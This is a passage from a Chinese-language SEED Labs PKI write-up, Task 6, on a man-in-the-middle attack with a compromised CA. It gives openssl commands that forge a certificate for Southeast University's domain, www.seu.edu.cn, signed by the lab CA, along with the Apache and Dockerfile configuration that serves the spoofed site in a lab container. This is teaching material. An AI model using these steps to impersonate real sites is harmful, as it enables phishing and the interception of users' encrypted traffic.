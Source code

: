 我们访问到了自己搭建的服务器，但是证书不被信任。

# Task 6: Launching a Man-In-The-Middle Attack with a Compromised CA

相似的，我们给东南大学主页生成假的证书：

```shell
$ openssl req -newkey rsa:2048 -sha256 -keyout university.key -out university.csr -subj "/CN=www.seu.edu.cn/O=Southeast University/C=US" -passout pass:dees
$ openssl ca -config myCA_openssl.cnf -policy policy_anything -md sha256 -days 3650 -in university.csr -out university.crt -batch -cert ca.crt -keyfile ca.key
```

前往 docker 文件夹，在 `image_www` 中创建 `seu_apache_ssl.conf`，内容如下：

```conf
<VirtualHost *:443>
    DocumentRoot /var/www/chenyang2022
    ServerName www.seu.edu.cn
    DirectoryIndex index.html
    SSLEngine On
    SSLCertificateFile /certs/university.crt
    SSLCertificateKeyFile /certs/university.key
</VirtualHost>
```

将 `university.crt` 和 `university.key` 复制进 `certs` 中，并修改 `Dockerfile` 为：

```dockerfile
FROM handsonsecurity/seed-server:apache-php

ARG WWWDIR=/var/www/chenyang2022

COPY ./index.html ./index_red.html $WWWDIR/
COPY ./chenyang2022_apache_ssl.conf /etc/apache2/sites-available
COPY ./seu_apache_ssl.conf /etc/apache2/sites-available
COPY ./certs/server.crt ./certs/server.key  /certs/
COPY ./certs/university.crt ./certs/university.key  /certs/

RUN  chmod 400 /certs/server.key \
     && chmod 400 /certs/university.key \
     && chmod 644 $WWWDIR/index.html \
     && chmod 644 $WWWDIR/index_red.html \
     && a2enmod ssl \
     && a2ensite chenyang2022_apache_ssl \
     && a2ensite seu_apache_ssl   

CMD  tail -f /dev/null
```

启动 docker：

```shell
$ dcbuild
$ dcup
```
